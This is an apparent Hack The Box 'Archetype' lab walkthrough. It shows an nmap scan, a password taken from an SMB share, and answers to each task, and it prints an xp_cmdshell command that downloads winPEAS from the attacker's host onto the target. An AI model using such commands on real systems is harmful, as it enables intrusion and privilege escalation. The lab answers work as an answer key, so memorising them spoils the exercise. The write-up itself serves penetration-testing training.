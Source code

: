 ```yaml
---

title: HTB [Archtype]

date: 2022-09-25 01:28:05 +0200

categories: [windows,smb,mssql,winpeas]

tags: [HTB Starting point]

---
```


## Archtype

![](https://i.imgur.com/CL1WkMf.png)

### Nmap scan

```js
Nmap scan report for 10.129.94.188
Host is up (0.43s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-09-25T04:12:07+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-09-25T03:57:39
|_Not valid after:  2052-09-25T03:57:39
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| ms-sql-info:
|   10.129.94.188:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb2-time:
|   date: 2022-09-25T04:11:48
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-24T21:11:52-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.48 seconds
```

#### Task 1
**Which TCP port is hosting a database server?**

`1433`


#### Task 2
**What is the name of the non-Administrative share available over SMB?**

`backups`

![](https://i.imgur.com/YXuztRL.png)



#### Task 3
**What is the password identified in the file on the SMB share?**

`M3g4c0rp123`

![](https://i.imgur.com/dXMtYoU.png)

![](https://i.imgur.com/0IzxCI2.png)

you can find a password in that `prod.dtsConfig` file



#### Task 4

**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**

that's `mssqlclient.py`


#### Task 5

**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**

`xp_cmdshell`

![](https://i.imgur.com/Iq7zVka.png)
- you need to `enable_xp_cmdshell` in order to use it  
- you can find more info about mssql enumeration[here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)



#### Task 6

**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**

`winpeas`

- Now let's start a python server in local to transfer the winpeas to the machine

```powershell
xp_cmdshell "powershell -c curl -o C:\Users\sql_svc\Downloads\priv.exe http://10.10.16.18/winPEASx86.exe"
```


#### Task 7

**What file contains the administrator's password?**

`ConsoleHost_history.txt`

- Run winpeas

![](https://i.imgur.com/YLmlvFH.png)
- Let's look into this file

![](https://i.imgur.com/mFI3Klu.png)

- Now login with evil winrm and submit the flags

![](https://i.imgur.com/eTyzVOT.png)

- That's all!!
